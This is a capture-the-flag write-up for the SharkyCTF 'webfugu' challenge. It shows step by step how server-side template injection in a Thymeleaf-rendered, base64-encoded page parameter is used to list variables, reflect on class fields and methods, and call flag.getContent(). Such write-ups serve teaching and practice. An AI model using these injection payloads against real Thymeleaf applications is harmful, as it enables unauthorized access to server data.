 # Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


# Solution

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

![](../Images/webfugu_1.PNG)

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>
    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](../Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

![](../Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml, but in the end process is process even when it's error prone and tedious), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    
![](../Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving up yet, let's dig mnore
    
    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>

Which got us:

![](../Images/webfugu_5.PNG)

Dig for the flag class too

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
 
Which gets us: 
 
 ![](../Images/webfugu_6.PNG)
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
    
Which gets us:

 ![](../Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (I probably could have "guessed" the answer much earlier had I had a Java background), as I began suspecting that I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    </div>

Wooop, there it iiis!

 ![](../Images/webfugu_8.PNG)

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
